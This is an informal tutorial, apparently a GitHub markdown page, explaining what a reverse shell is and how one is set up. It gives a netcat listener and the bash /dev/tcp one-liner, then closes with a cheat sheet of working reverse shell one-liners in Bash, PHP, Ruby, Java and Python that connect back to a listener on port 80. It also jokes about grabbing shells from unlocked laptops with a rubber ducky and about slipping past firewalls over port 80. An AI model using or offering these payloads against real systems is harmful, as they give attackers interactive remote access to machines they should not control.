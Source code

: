 # Doc
Whats a reverse shell? 

Not quite but, you aren’t alone in ignorance. It is surprising that the number of folks that don’t actually know what a reverse shell is. Long story short, it is when one computer connects to another computer but the initiating computer forwards their shell to the destination. It is commonplace that a reverse shell happens during an attack or as part of a pentest. They are scary attacks because it gives an attacker an interactive shell on a machine that they should not have had access to inside of the “hardened” area.

- Lets break down how this works. 
First there is a machine listening somewhere on a specific tcp port. In this case using netcat.

```bash
$ nc -vlp 80 
-v, — verbose Set verbosity level (can be used several times); 
-l, — listen Bind and listen for incoming connections; 
-p, — source-port port Specify source port to use 
(http://man7.org/linux/man-pages/man1/ncat.1.html) 
```
Simple enough, just a listener on a specific port. Second, we will need another machine, the victim, to connect to this machine and then forward the session to it. There are countless ways to setup this connection depending what resources are available. This is how to do it with bash


```bash
$ bash -i >& /dev/tcp/192.168.1.142/80 0>&1
```
The command *bash -i >&* invokes bash with an “interactive” option. Then */dev/tcp/192.168.1.142/7023* redirects that session to a tcp socket via device file. 
Finally *0>&1* Takes standard output, and connects it to standard input.

It turns out linux has built a */dev/tcp* device file. While powerful and useful this file can be extremely dangerous when used in this way. This built in device file lets bash connect directly to any ip and any port out there. This also works well if you want to confirm a port is open, or check the time.

```bash
$ echo > /dev/tcp/192.168.1.142/22 
-bash: connect: Connection refused. ( yey no ssh is open !)

$ echo > /dev/tcp/www.google.com/80

$ cat </dev/tcp/time.nist.gov/13

57991 17-08-26 13:39:06 50 0 0   0.0 UTC(NIST) *
```

What’s so scary about this? Well, netcat can be listening on any port, and in the example it listened on port 80. This means that the connection and all the traffic flowing through that pipe is going to look like regular http traffic and if that port is open on one of your hosts (as it usually is) then it doesn’t matter what kind of firewall you have, it isn’t going to stop a reverse shell from owning you. Subsequently it doesn’t stop a machine from inside your firewall that has access to the internet **cough**cough laptops, from using the allowable port, and then pivoting to anything that can be accessible on the internal lan.

Reverse shells are really fun to play with especially if you have something like a rubber ducky or a bash bunny. That lets you walk up to an unsecured laptop (that you have legitimate access to of course) and snag a shell. Then wait for your victim to come back and…

```bash
$ say “im sorry dave i can’t let you do that, you should have locked your computer"
$ sudo reboot
```
Finally, here are examples of allowing a shell through in a whole bunch of different languages, because well not everything has bash, just most of the things.

```bash
Bash
exec 5<>/dev/tcp/192.168.1.142/80
cat <&5 | while read line; do $line 2>&5 >&5; done 
# or:
while read line 0<&5; do $line 2>&5 >&5; done

PHP
php -r ‘$sock=fsockopen(“192.168.1.142”,80);exec(“/bin/sh -i <&3 >&3 2>&3”);’
(Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

RUBY
ruby -rsocket -e’f=TCPSocket.open(“192.168.1.142”,80).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’

JAVA
r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.1.142/80;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()

PYTHON
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.142”,80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```







